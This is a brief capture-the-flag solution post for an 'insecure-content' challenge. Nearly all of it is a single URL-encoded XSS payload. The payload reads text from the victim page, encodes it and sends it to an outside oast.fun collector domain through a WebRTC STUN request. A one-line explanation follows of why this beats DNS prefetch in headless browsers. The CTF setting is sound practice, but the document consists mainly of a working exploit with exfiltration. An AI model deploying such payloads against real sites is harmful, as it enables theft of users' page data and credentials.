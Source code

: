 ```
http://127.0.0.1:8000/greet?name=%3Cscript%3Ewindow.addEventListener%28%22load%22%2C+%28%29+%3D%3E+%7B+let+data+%3D+btoa%28document.querySelector%28%22p%22%29.innerText.substring%2848%29%29%3B+let+newdata+%3D+data.split%28%22%22%29.map%28%28c%29+%3D%3E+%7B+++++if+%28%21isNaN%28c%29%29+%7Breturn+c%3B%7D+++++else+if+%28c+%3D%3D+c.toUpperCase%28%29%29+%7Breturn+c.toLowerCase%28%29+%2B+c.toLowerCase%28%29%3B%7D+++++else+%7Breturn+c%3B%7D+%7D%29%3B+let+ex+%3D+newdata.join%28%22%22%29.replaceAll%28%22%3D%22%2C%22%22%29%3B+console.log%28ex%29%3B+let+e+%3D+new+RTCPeerConnection%28%7B+iceServers%3A+%5B%7B+urls%3A+%5B%22stun%3A%22%2Bex%2B%22.zrekefudcwgdnisxolob95nwy11uq3ho7.oast.fun%22%5D+%7D%5D+%7D%29%3B+e.createDataChannel%28%22%22%29%3B+e.createOffer%28%29.then%28r+%3D%3E+e.setLocalDescription%28r%29%29+%7D%29%3B%3C%2Fscript%3E
```

TLDR its a webrtc exfiltration (DNS prefetch dont work since its headless, and puppeteer is headless)

full writeup: https://rwandi-ctf.github.io/BlahajCTF2024/insecure-content/
